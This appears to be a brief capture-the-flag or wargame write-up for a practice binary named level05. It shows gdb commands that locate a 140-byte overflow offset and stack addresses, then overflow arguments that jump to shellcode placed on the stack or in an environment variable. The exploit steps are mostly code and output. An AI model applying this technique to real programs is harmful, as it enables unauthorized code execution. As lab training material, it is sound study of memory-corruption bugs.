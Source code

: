 Jump within stack
~~~~~~~~~~~~~~~~~
::

  gdb /levels/level05


  (gdb) run $(python -c 'print "A" * 140')
  ...
  Program received signal SIGSEGV, Segmentation fault.
  0xb7ea9c00 in __libc_start_main () from /lib/i686/cmov/libc.so.6

  (gdb) info proc stat
  ...
  Start of text: 0x8048000
  End of text: 0x804852c
  Start of stack: 0xbffffcf0 < Want this address

  (gdb) find /4 0xbffffcf0, +300, 0x41414141
  0xbffffe0b
  0xbffffe0c
  0xbffffe0d
  0xbffffe0e
  4 patterns found

May need to adjust the length param, or use 0xbfffffff as end

Then construct overflow
/levels/level05 $(./shell.py 140 "\x0b\xfe\xff\xbf")

Jumping to env
~~~~~~~~~~~~~~
Easiest way if you have access
::

  $ export EGG=$(./shell.py 100)

  $ env_addr EGG
  EGG: 0xbffffb1b

  $ /levels/level05 $(./shell.py 140 "\x1b\xfb\xff\xbf")
